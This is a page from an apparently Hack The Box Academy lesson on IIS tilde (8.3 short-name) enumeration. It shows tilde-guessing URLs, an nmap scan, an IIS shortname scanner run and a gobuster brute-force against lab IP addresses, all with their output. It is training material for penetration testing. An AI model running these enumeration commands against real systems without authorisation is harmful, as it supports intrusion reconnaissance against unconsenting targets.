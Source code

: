 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/113/section/2152
// Platform Version: V1
// Module ID: 113
// Module Name: Attacking Common Applications
// Module Difficulty: Medium
// Section ID: 2152
// Section Title: IIS Tilde Enumeration
// Page Title: Attacking Common Applications
// Page Number: 25
-->

# IIS Tilde Enumeration

**Module Name:** Attacking Common Applications **Page Number:** 25

#### ATTACKING COMMON APPLICATIONS

# IIS Tilde Enumeration

``` http
http://example.com/~a
http://example.com/~b
http://example.com/~c
...
```

``` http
http://example.com/~se
http://example.com/~sf
http://example.com/~sg
...
```

``` http
http://example.com/~sec
http://example.com/~sed
http://example.com/~see
...
```

``` http
http://example.com/secret~1/somefile.txt
http://example.com/secret~1/anotherfile.docx
```

``` http
http://example.com/secret~1/somefi~1.txt
```

## Enumeration

#### Nmap - Open ports

``` shell-session
[!bash!]$ nmap -p- -sV -sC --open 10.129.224.91

Starting Nmap 7.92 ( https://nmap.org ) at 2023-03-14 19:44 GMT
Nmap scan report for 10.129.224.91
Host is up (0.011s latency).
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 183.38 seconds
```

#### Tilde Enumeration using IIS ShortName Scanner

``` shell-session
[!bash!]$ java -jar iis_shortname_scanner.jar 0 5 http://10.129.204.231/

Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Do you want to use proxy [Y=Yes, Anything Else=No]? 
# IIS Short Name (8.3) Scanner version 2023.0 - scan initiated 2023/03/23 15:06:57
Target: http://10.129.204.231/
|_ Result: Vulnerable!
|_ Used HTTP method: OPTIONS
|_ Suffix (magic part): /~1/
|_ Extra information:
  |_ Number of sent requests: 553
  |_ Identified directories: 2
    |_ ASPNET~1
    |_ UPLOAD~1
  |_ Identified files: 3
    |_ CSASPX~1.CS
      |_ Actual extension = .CS
    |_ CSASPX~1.CS??
    |_ TRANSF~1.ASP
```

#### Generate Wordlist

``` shell-session
[!bash!]$ egrep -r ^transf /usr/share/wordlists/ | sed 's/^[^:]*://' > /tmp/list.txt
```

#### Gobuster Enumeration

``` shell-session
[!bash!]$ gobuster dir -u http://10.129.204.231/ -w /tmp/list.txt -x .aspx,.asp

===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.204.231/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /tmp/list.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              asp,aspx
[+] Timeout:                 10s
===============================================================
2023/03/23 15:14:05 Starting gobuster in directory enumeration mode
===============================================================
/transf**.aspx        (Status: 200) [Size: 941]
Progress: 306 / 309 (99.03%)
===============================================================
2023/03/23 15:14:11 Finished
===============================================================
```

# 

# 

#### Questions

####